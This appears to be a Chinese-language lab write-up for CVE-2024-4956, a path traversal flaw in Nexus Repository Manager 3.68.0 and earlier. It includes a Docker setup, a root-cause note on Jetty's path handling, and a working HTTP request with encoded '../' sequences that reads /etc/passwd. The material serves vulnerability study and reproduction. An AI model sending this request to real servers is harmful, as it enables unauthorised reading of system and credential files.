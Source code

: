 # Nexus Repository Manager 3 未授权目录穿越漏洞（CVE-2024-4956）

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。

其3.68.0及之前版本中，存在一处目录穿越漏洞。攻击者可以利用该漏洞读取服务器上任意文件。

参考链接：

- <https://support.sonatype.com/hc/en-us/articles/29416509323923-CVE-2024-4956-Nexus-Repository-3-Path-Traversal-2024-05-16>

## 漏洞环境

执行如下命令启动一个Nexus Repository Manager version 3.68.0 版本服务器：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8081`即可看到Nexus的默认页面。

## 漏洞复现

与Orange Tsai在[Blackhat US 2018](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)分享的SpringMVC CVE-2018-1271漏洞类似，Jetty的`URIUtil.canonicalPath()`函数也将空字符串认为是一个合法目录，导致了该漏洞的产生：

发送如下请求来复现漏洞：

```
GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

可见，`/etc/passwd`已被成功读取：

![](1.png)
